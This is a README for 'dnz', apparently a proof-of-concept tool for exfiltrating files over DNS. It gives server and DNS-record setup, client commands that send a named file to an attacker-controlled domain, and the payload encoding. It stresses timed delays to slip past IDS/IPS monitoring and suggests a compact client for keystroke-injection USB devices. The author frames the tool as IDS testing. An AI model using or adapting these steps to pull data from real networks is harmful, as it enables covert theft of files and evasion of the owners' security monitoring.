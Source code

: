 #dnz

This should be the last tool to use, as it is slow, but if the only way to get the data out of the network is through DNS (if you can make connection over UDP 53 to external network, use anything else, which will be faster), then this tool is working. The only difference from the tools I have found and tested is introduction of delay between the calls.
*Why would you want that?*
Some IDS/IPS (Intrusion Detection System or Intrusion Prevention Systems) are monitoring frequency of DNS calls to unknown locations, therefore, introducing delay might help to be stealthier.

##How to use
If you know what you are about to do, you should understand that you need to have a control of DNS records and have publicly available server. At this point we will assume that you have that part already done (instructions at part: How to install and configure).
So the usage is simple, on the **"server"** you just need to run (after installing [scapy](https://scapy.net/) for your python):
*python server.py IPtoListenOn DomainName NetworkInterface
python server.py 192.168.0.1 my.domain.com eth0*

Reasons for requirements to provide IP and Network Interface: your server might have multiple, but we do not want to analyse the traffic we do not care about.

If you choose to use the python on the client, then you do not need any additional libraries, standard installation will handle everything and here is the whole beauty. Otherwise there are compiled binaries for Windows (x86), Linux (x86) and OS X (x64), the code which has been compiled is written in GoLang (no judgement here, I am still starting the Go, so trial and error here). Client is simple as well:
*python client.py fileName domain timeToSleep retriesIfNoDNSresponse fileNumberIfMultipleSent
python client.py test.txt my.domain.com 1 2 5*
* fileName - the file name of file you want to transfer
* domain - the domain which you are using (configured)
* timeToSleep - the delay in seconds for between DNS requests, default is 0, (1 in example) increasing the number will slow down the transfer
* retriesIfNoDNSresponse - by default we are expecting to receive DNS response (IP should be 127.0.0.1, additional thing with IPS/IDS they will not be able to check if after the DNS request you have tried a connection), default is set to 2
* fileNumberIfMultipleSent - in case you want to send multiple files, you can set the number of the file, default is set to 1 (5 in example), this is a single digit number!!!

##Limitations
With current design the limitations are the following:
* File should be less than ~240KB
* Up to 9 files can be transferred from machines with same local IP address (chances are low that you will be doing that from two different machines with same IP)
* No encryption, so your file is being transferred over the public network without encryption - you know it's a bad idea
* Not too difficult to run DOS against server after reading the code :)
* If someone is aware of the design, it is possible to corrupt the file in transfer

Probably there are more, but hey, it was PoC.

##How to install and configure
###Server
This is the hardest part, as you need to have server with python, root privileges (listen and respond port 53) and access to control DNS records. Let's start with DNS records.
* Create an A type record for your server, i.e. *m1ns.domain.com IN A x.x.x.x*
* Create NS type record for a short subdomain, i.e. *m.domain.com IN NS m1ns.domain.com*  (as you see your NS server must match the previously created A record, not a rocket science here)
You are done with the DNS records, but check with your provider how to properly set those.

On server Download the server.py from repo, install requirements and run:
* git clone https://github.com/zalt3es/dnz/
* pip install scapy (or pip install requirements.txt)
* python server.py x.x.x.x m.domain.com eth0

That's it, you have a running server.
###Client
Download and run either binary or python. In case you want to transfer less data you can use client2.py, it takes some time to read it, but it's just same code as client.py, just shorter variables, no comments, etc. - should fit even in any key injection USB (Rubber Ducky, etc. probably even in digispark with key injection). In regards to machine permissions, any user, as long as it has access to the file.

##Story behind
This might be boring for some, but interesting to others. I had a need to check how IDS work for DNS tunnelling and data exfiltration over DNS. Multiple publicly available tools has been identified by IDS and blocked, which is not fun in my understanding. Thinking of how IDS and IPS works I have tried to find DNS exfiltration tool which would allow me to use delay between requests, though nothing found in 5 minutes (I might have terrible searching skills :) ). Then I decided that it should not be too difficult to write something like that myself and [scapy](https://scapy.net/) was my tool to go, as python is easy and quick (at least for me).
After analysing how to trap and respond to DNS requests with [scapy](https://scapy.net/), I had another issue, what encoding should be used, it must contain only letters, numbers and hyphen, check [Wikipedia](https://en.wikipedia.org/wiki/Hostname), so BASE64 falls down, as it is case sensitive. Luckily, I don't have to invent the wheel, python has BASE32 encoding as default encoding type, which is not case sensitive, and even uses less characters than I need.
Another thing which was considered, what information I want to have and the way payload needs to organised, so came up with this payload structure:
hhhhhhhhAXXXXpppppppppp
* hhhhhhhh - IP of originating machine in hex to save space, could be even smaller
* A       - File number (in case you want to run multiple files from the machine - this would increase the noise)
* XXXX    - packet number, this is a numeric value, that's where the limitation for file size comes from, file must be sent in less than 10.000 requests
* pppppppp - the part of file, or filename if that is the first request

As expected, creating custom tool and introducing delays, got the file out without triggering alerts, though logic behind rules has been changed and analysis and correlation between other machines on the network helped a lot. Rules can be changed to identify the tools, but new tool is always hard to identify. Since such a simple tool was not identified during the test on quite isolated network, logic says that if you really need to use DNS, then take the server.py and create your own structure which would be beneficial for you (i.e. if you need to transfer only digits, then there is no reason to BASE32 encode, just encode to hex, or even better, create your own simple encoding utilising all alphabet characters and digits - 36 characters, so number up to 3656.1584.4006.2976 should fit in 10 characters).

Enjoy!

##Disclaimer

All the information on here is published in good faith and for general information purpose only. I do not make any warranties about the completeness, reliability and accuracy of this information. Any action you take upon the information (including code) you find in this repo, is strictly at your own risk. I will not be liable for any losses and/or damages in connection with the use of the tool, code, information, etc. on this repo. I am not responsible for misuse of tools and information, as well, this tool shoul not be used for illegal purposes.
